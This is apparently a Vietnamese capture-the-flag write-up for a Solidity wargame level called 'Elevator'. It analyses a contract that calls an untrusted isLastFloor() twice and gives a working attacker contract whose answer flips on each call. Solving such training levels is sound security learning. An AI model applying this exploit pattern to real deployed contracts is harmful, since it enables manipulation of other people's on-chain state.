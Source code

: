 # Level 11: Elevator
##  Difficulty: ★★☆☆☆

## Given contract
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```
## Target
Tìm cách để lên được tầng cuối (hay nói cách khác là tìm cách để set biến ``top``= true)

## Phân tích
- Ở đây, chúng ta thấy hàm ``isLastFloor()`` được gọi hai lần => ta chỉ cần override lại hàm ``isLastFloor()``, gọi hàm lần thứ 1 để set top thành false, lần 2 để set thành true => pass
```solidity
 if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
 
```
## Solution
- Compile và deploy contract này trên remix,sau đó gọi hàm gotoTop với address là contract address của level

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.6.0 <0.9.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

interface IElevator {
    function goTo(uint _floor) external;
}

contract MyBuilding is Building {
    bool public last = true;

    function isLastFloor(uint) override external returns (bool) {
        last = !last;
        return last;
    }

    function goToTop(address _elevatorAddr) public {
        IElevator(_elevatorAddr).goTo(10);
    }
}
```

- Check lại biến top
```javascript
await contract.top()
true
```
**Submit** -> Done